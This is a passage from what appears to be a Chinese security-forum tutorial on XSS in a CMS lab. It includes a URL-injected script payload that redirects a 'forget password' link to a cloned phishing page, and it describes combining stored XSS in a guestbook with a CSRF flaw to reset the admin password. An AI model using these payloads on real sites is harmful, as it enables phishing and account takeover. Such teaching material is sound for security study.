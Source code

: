 那么所访问的网站就会被跳转到百度的首页。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c1c873c6717ae34d1bff89df0d6be4ed1f73b18b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c1c873c6717ae34d1bff89df0d6be4ed1f73b18b.png)

### 3.利用XSS进行钓鱼攻击

**实现步骤：**  
实验环境：cms靶场  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cd67f3624987b84cbd457be0c9fa5ad8b6902e94.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cd67f3624987b84cbd457be0c9fa5ad8b6902e94.png)  
1.点击忘记密码，跳转到http://10.10.29.134/admin/wjmm.php 页面  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cfc60d4bc77e83902a1a1963541b01524c83d814.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-cfc60d4bc77e83902a1a1963541b01524c83d814.png)  
2.创建一个php文件，内容为需要修改目标网页的内容，名字和网页中的相同，并放在自己web根目录下，实现钓鱼（也可以用网上的克隆的方法进行尝试）  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c229d61da776ea4c895e9bd78055e22c6bd3ecba.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c229d61da776ea4c895e9bd78055e22c6bd3ecba.png)  
3.将刚刚做好的网址放置在具有xss注入的用户名框中也可以放置在url上（这里注入是通过url传参的），并将鼠标移至忘记密码查看跳转页面是否有变化

```html
http://10.10.29.134/admin/login.php?username=1234567asdfg"/><script>document.getElementsByTagName("body")[0].onload=function changeLink(){document.getElementById("myId").href="http://127.0.0.1/wjmm.php";}</script><a
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aa71e012fed7eb02dbb20fc6e3ad8e64ab5f157b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aa71e012fed7eb02dbb20fc6e3ad8e64ab5f157b.png)  
这时点击忘记密码，就跳转到我们刚刚仿照的页面上了  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0459c231e4c3a6c78bf5c7ae8692c6d4af45e09a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0459c231e4c3a6c78bf5c7ae8692c6d4af45e09a.png)

### 4.配合CSRF攻击，实施进─步的攻击

**CSRF漏洞简单介绍：**  
CSRF(Cross-site request forgery)跨站请求伪造。  
CSRF漏洞产生的原因主要是因为关键的敏感请求可被伪造发出，而服务端接收处理未进行二次校验。  
**敏感请求**:增删改等操作请求，如添加账号，修改密码，删除文章等。  
**二次校验**:验证请求是由用户正常发起的校验方式，如图片和短信验证码，随机token，修改密码需同时提交旧密码等都属于二次校验。

由于在对管理员帐号编辑的地方，进行密码修改时没有进行2次校验或确认，存在CSRF漏洞，使用XSS脚本对该CSRF漏洞进行利用通过burp将需要伪造的http请求固有的属性复制到自己编写的代码中

**具体操作如下：**  
1.发现网站的留言板存在存储型xss漏洞  
输入`<script>alert(1);</script>`,弹出弹窗，说明存在xss注入  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a35a49f788c267ac583043225502f6ab161d8380.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a35a49f788c267ac583043225502f6ab161d8380.png)  
弹出弹框  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-58fac1342afa3d6accb99482fe1b151106500051.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-58fac1342afa3d6accb99482fe1b151106500051.png)  
2.登录后台后，点击修改密码，修改密码为123456，并且使用burp进行抓包  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e8b0e0e756a202f8999efe931222ef962a9610d1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e8b0e0e756a202f8999efe931222ef962a9610d1.png)  
3.然后结合csrf漏洞，再根据数据包写一个JavaScript的脚本  
发送http头部请求和发送更改密码的指令，将账户admin的密码改为111  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-16c7bee34a64d7777574433d1d500987e2c37431.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-16c7bee34a64d7777574433d1d500987e2c37431.png)  
4.在留言框中写入脚本，点击留言  
